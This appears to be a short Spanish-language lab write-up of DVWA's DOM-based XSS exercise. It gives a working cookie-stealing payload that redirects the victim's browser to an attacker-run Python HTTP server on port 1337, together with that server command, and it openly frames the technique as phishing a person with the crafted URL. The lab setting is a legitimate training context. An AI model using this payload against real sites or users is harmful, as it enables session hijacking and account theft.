

El objetivo de esta pagina es que nostros podamos conseguir las cookies de una persona la cual le mandaremos el URL desde un seleccionar idioma.
Lo primeor que hacemos es intentar inspeccionar y ver como podemos modificar con JavaScript esta web, probamos con una alerta en algun idioma.

<script> alert(document.cookie)</script> esto arroja la cookie en forma de alerta
notamos como este JavaScript cambia directamente en el URL
por lo que nos da una gran posibilidad de realizar fishing abriendo un servidor en python3 y esperar a que la persona aprete el servidor para que nosotros tengamos sus cookies, hagamoslo.
primero preparamos el JavaScript en el URL:
con este script estamos diciendole que redirija la ventana a nuestro server diciendo que las cookies son iguales y concatenamos con la variable document.cookie
luego para obtener las cookies ejecutamos un servidor con python en el puerto 1337
python -m http.server 1337
URL PARA FISHING:
http://192.168.0.101/DVWA/vulnerabilities/xss_d/?default=<script>window.location='http://192.168.0.101:1337/?cookie=' + document.cookie </script>